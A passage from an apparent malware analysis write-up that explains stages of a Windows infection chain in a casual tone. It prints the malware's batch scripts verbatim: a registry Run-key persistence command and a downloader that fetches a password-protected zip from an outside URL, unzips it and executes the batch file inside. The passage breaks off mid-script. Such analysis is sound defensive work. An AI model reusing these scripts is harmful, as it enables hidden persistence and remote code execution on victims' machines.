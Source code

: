 ### What’s It Do?

- Spins up a `Shell.Explorer` ActiveX object (basically Internet Explorer’s engine).
- Grabs the script’s folder path.
- Runs `60901024.bat` quietly (no console window, thanks to that `0`).
- Cleans up and dips.

**TL;DR**: It sneakily kicks off `60901024.bat` without you noticing.

## Stage 5: The Batch File Bonanza

### First Batch Script: 60901024.bat

```bat
@echo off
pushd "%~dp0"
if exist "57579534.bat" (
    reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v startsvc1 /t REG_SZ /d "%~dp0start.vbs" /f > nul
    call 57579534.bat > nul
    call 54744204.bat > nul
    del /f /q 57579534.bat > nul
)
if not exist "57579534.bat" (
    if not exist "upok.txt" (
        call 54744204.bat > nul
    )
)
if not exist "f.txt" (goto 1)
if exist "f.txt" (goto EXIT)
:1
call 54312804.bat > nul
timeout -t 57 /nobreak
if not exist "f.txt" (goto 1)
if exist "f.txt" (goto EXIT)
:EXIT
del /f /q "f.txt"
```

1. Sets up shop in its folder.
2. If `57579534.bat` exists:
   - Slaps `start.vbs` into the Registry to run on startup (sneaky persistence).
   - Runs `57579534.bat` and `54744204.bat`, then trashes `57579534.bat`.
3. If `57579534.bat` is gone and no `upok.txt`, it still runs `54744204.bat`.
4. Loops every 57 seconds, calling `54312804.bat` until `f.txt` shows up, then deletes it and bails.

### Second Batch Script: 57579534.bat

```bat
@echo off
pushd %~dp0
set fn=di3726
call 53452693.bat "https://ausbildungsbuddy.de/modules/mod_mail/inc/get.php?ra=iew&zw=lk0100" "%~dp0%fn%.zip" "1" > nul
if not exist %~dp0%fn%.zip (
    goto END1
)
set dt=1.bat
if not "%dt%"=="" (
    call unzip.exe -o -P "a0" "%~dp0%fn%.zip" > nul
    del /f /q %~dp0%fn%.zip > nul
    if exist %~dp0%dt% (
        call %~dp0%dt% > nul
    )
```